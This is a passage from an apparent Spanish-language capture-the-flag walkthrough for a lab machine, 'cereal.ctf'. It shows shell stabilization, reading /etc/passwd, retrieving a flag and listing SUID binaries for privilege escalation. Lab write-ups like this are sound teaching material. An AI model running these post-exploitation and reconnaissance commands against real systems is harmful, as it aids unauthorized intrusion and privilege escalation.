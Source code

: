 Para tener una mejor shell hacer un:

```shell
script /dev/null -c bash
stty raw echo; fg
reset xterm 
ENTER
```

```shell
bash-4.4$ whoami
apache
bash-4.4$ export TERM=xterm
bash-4.4$ export SHELL=bash
bash-4.4$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.4$ hostname 
cereal.ctf
bash-4.4$ 
```

Hay un usuario llamado `rocky`

```shell
bash-4.4$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
rocky:x:1000:1000::/home/rocky:/bin/bash
bash-4.4$ 
```

Podemos ver la primer flag

```shell
bash-4.4$ cat local.txt 
aaa87365bf3dc0c1a82aa14b4ce26bbc
bash-4.4$ pwd
/home/rocky
bash-4.4$ 
```

Vamos a buscar por privilegios SUID

```shell
bash-4.4$ find / -perm -4000 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/sbin/grub2-set-bootflag
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/cockpit-session
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/selinux_child
/usr/libexec/sssd/proxy_child
bash-4.4$ 
```
